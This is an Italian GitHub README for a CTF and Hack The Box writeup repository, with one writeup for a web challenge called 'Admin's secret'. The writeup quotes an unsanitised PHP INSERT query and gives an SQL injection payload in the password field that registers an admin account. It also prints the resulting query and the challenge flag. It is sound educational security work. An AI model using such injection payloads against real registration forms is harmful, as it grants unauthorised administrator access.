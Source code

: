 # CTF Writeups & HTB Machines 💀

In questo repository archiviamo tutte le writeups di CTF (Capture The Flag) e macchine HTB (Hack The Box) che ho completato.

## Contenuti 📚
- **CTF Writeups**: Soluzioni dettagliate delle sfide CTF
- **HTB Machines**: Guide complete per le macchine Hack The Box

## Contributi 🤝
Per contribuire con un writeup, contattami via email: `luca.crippa05@gmail.com`

## Licenza ⚖️
Repository condivisa per scopi educativi. Rispetta sempre le policy delle piattaforme quando condividi materiale.

---

# Writeup: Admin's secret 🔓

## Overview
- **Categoria:** web
- **Autore:** riccardotornesello
- **Difficoltà:** 751
- **Stato:** Up (last checked: 4 minutes ago)
- **URL:** [http://adminsecret.challs.olicyber.it](http://adminsecret.challs.olicyber.it)

## Descrizione 📝
La challenge ci offre un sito in cui è possibile registrarsi, ma solo l'amministratore ha accesso alle informazioni più interessanti. La vulnerabilità si trova nel file `register.php`, dove viene eseguita un'inserimento di dati nel database senza alcuna sanitizzazione degli input. L'obiettivo è sfruttare una SQL Injection per alterare il valore del parametro `admin` da `false` a `true`.

## Soluzione 🎯

### 1. Analisi del File `register.php`
Nel file `register.php` troviamo la seguente query SQL:
```php
$sql = "INSERT INTO users(username,password,admin) VALUES ('" . $username . "','" . $password . "',false);";
```
La vulnerabilità si trova nell'inserimento del valore `false` per il campo `admin`, che non è sanitizzato e può essere manipolato tramite SQL Injection.

### 2. Payload per SQL Injection
Per modificare il valore di `admin` a `true`, possiamo usare il seguente payload:
- **username:** `fazelucq`
- **password:** `ciao', true) --`

La query finale diventa:
```sql
INSERT INTO users(username,password,admin) VALUES ('fazelucq','ciao', true);-- ',false);
```
Il `--` commenta la parte successiva della query, lasciando solo l'inserimento del nuovo utente con il valore `admin` impostato a `true`.

### 3. Registrazione come Admin
Dopo aver registrato l'utente con il payload, possiamo accedere alla pagina di login con le credenziali:
- **username:** `fazelucq`
- **password:** `ciao`

Una volta effettuato il login, avremo accesso alla flag.

## Flag 🏁
```
flag{c0me_se1_div3ntato_admin}
```

## Lezioni Apprese 📚
- **Vulnerabilità SQL Injection:** Anche se la parte più critica della query sembra essere il parametro `admin`, è sempre importante verificare se ci sono opportunità per manipolare query SQL in modo non previsto.
- **Commenti SQL:** L'uso dei commenti (`--`) è un modo efficace per ignorare il resto di una query e manipolare il comportamento del database.

## Tools Utilizzati 🛠️
- **Browser Web:** Per testare il sito e interagire con le pagine.
- **Editor di Testo:** Per modificare i payload e eseguire i test.

---

*Writeup by Luca Crippa - Last Updated: 2024*
